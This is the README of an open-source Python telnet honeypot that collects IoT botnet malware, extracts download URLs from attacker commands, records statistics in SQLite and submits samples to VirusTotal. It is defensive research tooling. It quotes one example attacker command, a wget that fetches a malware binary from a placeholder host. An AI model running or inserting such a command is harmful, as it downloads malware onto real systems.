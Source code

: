 # Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The script tries to identify download commands
like `wget http://haxx0r.net/malware.bin`, extracts the URLs
and tries to download and indentify the malware-binaries.

Statistics of the downloaded binaries and corresponding
Urls/Telnet connections may be created via the generated
SQLite database.

All binaries are also uploaded to virustotal.com, if not
already present.

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
